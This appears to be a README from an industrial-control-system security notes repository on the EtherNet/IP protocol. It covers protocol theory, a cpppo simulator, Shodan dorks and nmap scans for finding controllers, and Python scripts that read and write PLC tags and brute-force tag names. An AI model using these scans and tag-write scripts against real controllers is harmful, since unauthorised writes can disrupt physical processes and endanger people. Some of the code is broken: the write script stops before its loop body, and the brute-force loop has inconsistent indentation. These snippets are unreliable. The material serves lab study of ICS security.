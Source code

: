 ## EtherNet/IP - Theory

![EtherNet/IP OSI Model](docs/ethernetip_osi_model.jpg)

![EtherNet/IP Frame Structure](docs/ethernetip_frame_structure.jpg)

*CIP specifications are quite prescriptive about the packet structure. This means that every EtherNet/IP and CIP device has to comply with the commands within the specifications. The CIP Encapsulation header includes the fields within the EtherNet/IP header:*

![Ethernet/IP CIP Structure](docs/ethernetip_cip_structure.jpg)

  * **Command** - A two-byte integer that relates to a specific command per CIP specification. Within CIP, a device must accept commands that it does not recognize and handle this exception without breaking the connection.
  * **Length** - A two-byte integer that represents the length of the data portion of the packet; this field should be 0 for packets that contain no data, such as for a request packet.
  * **Session Handle** - The Session Handle is generated by the target device and returned to the originator of the session. This handle will be utilized in future communications with the target device.
  * **Status** - This status reflects the ability of the receiver of the packet to execute the given command that was sent. A 0 reflects the successful completion of the command. In all request packets, the status is 0. Other status code responses include
    * **0x0001** -> Invalid or unsupported command
    * **0x0002** -> Insufficient resources in the receiver to handle the command
    * **0x0003** -> Poorly formed or incorrect data
    * **0x0065** -> Received invalid data length
  * **Sender Context** -> The sender of the command will generate this six-byte value, and the receiver will return this value unchanged.
  * **Options** -> This value should always be 0; if it’s not 0, the packet will be discarded.
  * **Command-specific data** -> This field changes based on the command itself that was received and sent.

Quoted from *HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions by C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*


## EtherNet/IP Simulator

To install a python implementation of EtherNet/IP Stack in a Ubuntu VM:

``` 
$ sudo -H pip install --upgrade cpppo
$ python -m cpppo.server.enip -v
python -m cpppo.server.enip -v
12-16 01:53:33.461 MainThread root     NORMAL   main       Loaded config files: []
12-16 01:53:33.461 MainThread enip.srv NORMAL   main       Delaying all responses by 0.0 seconds
12-16 01:53:33.462 MainThread root     NORMAL   main       EtherNet/IP Simulator: ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] running on ('', 44818)
12-16 01:53:33.462 MainThread network  NORMAL   server_mai enip_srv server PID [26261] responding to external done/disable signal in object 139661755723408
12-16 01:53:33.462   Thread-1 enip.srv NORMAL   enip_srv   EtherNet/IP Server enip_UDP begins serving peer None
``` 

or start this way to enable an array of 1000 INT values. Tag is called *SCADA*:

``` 
python -m cpppo.server.enip SCADA=INT[1000] -v
``` 


## Dorks and detection

Use these to get started with shodan then you can extend fingerprints based on results!

``` 
Device type: Communications Adapter
port:44818
```

Usually, service is on port **44818 TCP** or sometime on **2222 UDP**. To discover devices in a specific subnet, nMap scan should look like:

``` 
$ nmap -p44818 172.16.252.1/24

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:58 EET

Nmap scan report for 172.16.252.134
Host is up (0.00062s latency).
PORT      STATE SERVICE
44818/tcp open  unknown
``` 

or use a passivie method to scan for live hosts then check ports: [scan.md](../scan.md)

and if you want to analyze the service itself: https://nmap.org/nsedoc/scripts/enip-info.html


``` 
$ nmap 172.16.252.134 -p 44818 --script=enip-info

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-16 11:55 EET
Nmap scan report for 172.16.252.134
Host is up (0.00028s latency).
PORT      STATE SERVICE
44818/tcp open  EtherNet-IP-2
| enip-info: 
|   Vendor: Rockwell Automation/Allen-Bradley (1)
|   Product Name: 1756-L61/B LOGIX5561
|   Serial Number: 0x006c061a
|   Device Type: Programmable Logic Controller (14)
|   Product Code: 54
|   Revision: 20.11
|_  Device IP: 0.0.0.0
``` 

To go deeper, check this out: https://github.com/paperwork/pyenip


## Exploit?

1. Use *RSLogix 5000 Software* - it will allow you to perform some direct operations and even rewrite firmware.

2. Use *cpppo* to read/write tags:

**Write a specific tag:**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[13]", "SCADA[2]=(INT)37" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
``` 

**Read a specific tag:**

The trick in reading is that you have to already know the name of the tag you want to read! In the example, the tag name is "SCADA", the one used when simulator was started!

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client
import time

host = "192.168.179.131"
tags = [ "SCADA[1]", "SCADA[2]" ]

with client.connector( host=host ) as conn:
    for index,descr,op,reply,status,value in conn.pipeline(
            operations=client.parse_operations( tags ), depth=2 ):
        print( "%s: %20s: %s" % ( time.ctime(), descr, value ))
```

The only difference is the *line 7*, where the value is defined!

**Find new tags using broute force**

```python
#!/usr/bin/env  python2

from cpppo.server.enip import client

host = "192.168.179.131"

with open('tagNames.txt') as f:
    tags = f.read().splitlines()                    # read all the tag names in the dictionary file, 
                                                    # stripping of newlines
with client.connector( host=host ) as conn:
    for tag in tags:
        req = conn.read( tag + '.ACC')              # adding .ACC to avoid errors on not DINT type tags

        assert conn.readable(timeout=1.0), "Failed to receive reply"

        reply = next(conn)
        for k, v in reply.items():                  # Scan through the Key and Value pairs returned
            if str(k).endswith('status'):
				if (v == 5):                        # Found a valid tag if the transaction status is 5 
                    print tag + " is a valid tag"
```

where *tagNames.txt* is a list of possible tags, one per line:

```
motor
pump
tank
valve
actuator
power
circuit
room
grid
panel
control
john
cena
password
username
user
pass
secret
safe
key
hidden
```

Some other tools usefull for this step:
  * https://github.com/kenexis/PortableICS-MITM
  * https://www.rapid7.com/db/modules/auxiliary/admin/scada/multi_cip_command
  * http://reversemode.com/downloads/logix_report_basecamp.pdf


## Conclusions

Resources and bibliography:

  * **Industrial Cybersecurity - Efficiently secure critical infrastructure systems** by *Pascal Ackerman*
  * **HACKING EXPOSED: ICS and SCADA Security Secrets and Solutions** by *C. E. Bodungen, B. L. Singer, A. Shbeeb, S. Hilt, K. Wilhoit*
  * Introduction into ICSs world: https://www.myplctraining.com/beginners-plc-overview-part-1-of-4-introduction-to-plcs/